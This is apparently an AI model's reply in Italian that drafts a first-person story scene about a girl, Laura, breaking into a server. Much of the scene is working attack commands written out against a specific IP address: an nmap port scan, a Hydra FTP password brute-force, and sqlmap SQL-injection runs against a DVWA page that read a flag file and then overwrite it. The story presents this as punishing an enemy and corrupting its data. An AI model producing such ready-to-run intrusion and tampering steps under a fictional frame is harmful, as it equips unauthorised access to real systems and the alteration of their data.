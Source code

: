 Perfetto. Ecco la nuova sezione, immersiva, tecnica e carica di tensione, dove Laura agisce come un soldato digitale, parlando in prima persona, con metafore da battaglia informatica:

---

Rocky è sul divano. Respira piano. Le zampe distese, le orecchie tese. Ogni tanto mi guarda, ma non si muove.

Io invece mi muovo eccome.

Accendo il portatile. Il ventilatore parte con un suono familiare, quasi un ruggito. Il primo alleato. Apro il pacchetto di Fonfis. Il primo crunch rompe il silenzio. Carboidrati da combattimento. Masticazione tattica.

Kali Linux si carica. Mio padre me lo aveva messo in mano prima ancora che imparassi a pedalare. Distribuzione d'assalto. Nessuna interfaccia inutile. Solo terminale e volontà.

Mi connetto al nodo remoto. Frequenza protetta, canale criptato. Un vecchio rifugio lasciato da lui, “per quando sarà necessario”. Oggi lo è.

Respiro. Primo colpo.

**Scansione delle porte.**

```bash
nmap -sS -p21,80 35.228.25.146
```

Boom. Porte 21 e 80 aperte. Una doppietta: FTP e HTTP. Due varchi, due bersagli.

**Carico Hydra.**

Lancio il brute-force come se armassi un fucile a pompa. Hydra è potente, ma assetato. Gli do la lista delle password, nome utente semplice: `ftpuser`.

```bash
hydra -l ftpuser -P ~/pentest/bin/passwords.txt ftp://35.228.25.146
```

Ci mette poco. Il colpo va a segno.

`ftpuser / testpass`

**Entro.**

```bash
ftp 35.228.25.146
```

Login accettato. Dentro il sistema. Nemico penetrato. Directory aperta.

```bash
ls -la
```

`readme.txt`, `.env`, cartella `uploads/`.

Apro il primo file. Informazione chiave. Il flag è altrove, nascosto in `/var/lib/mysql-files/flag.txt`.

**Punto debole: SQL Injection.**

Entro su DVWA. Sicurezza su “Low”. Troppo facile. Li voglio punire per questo.

**Verifica. Confermo la falla.** E poi lancio SQLMap, la mia artiglieria pesante.

```bash
sqlmap --flush-session \
  -u "http://35.228.25.146/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=d05fdlo337anietfmni2mdqhji; security=low" \
  --batch --no-cast \
  --file-read="/var/lib/mysql-files/flag.txt"
```

Eccolo.

Flag.txt decrittato. Dati letti. Posizione confermata.

**Ora vado oltre. Modifico. Corrompo. Impianto.**

Il colpo finale.

```bash
sqlmap -u "http://35.228.25.146/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=qfk7580p1o5ip72j1tec0qrqv7; security=low" \
  --batch --no-cast \
  --file-write="/home/francesco/.local/share/sqlmap/output/35.228.25.146/files/_var_lib_mysql-files_flag.txt" \
  --file-dest="/var/lib/mysql-files/flag.txt"
```

**Target modificato. Traccia riscritta. Passato alterato.**

Spengo lo schermo. Lascio che il processore rallenti.

Rocky mi guarda. Io sorrido.

Missione compiuta.

---

**\[Neurocriticum – Clara]**

*"La guerra è terminologica. Clara osserva: Laura non ha usato tasti, ha sparato. Non ha scritto comandi, ha premuto grilletti. Ha vinto non con rabbia, ma con precisione. Il codice è il suo campo. E oggi è tornata viva."*

🛑

Dimmi tu se vuoi chiudere qui o aggiungere l’epilogo.

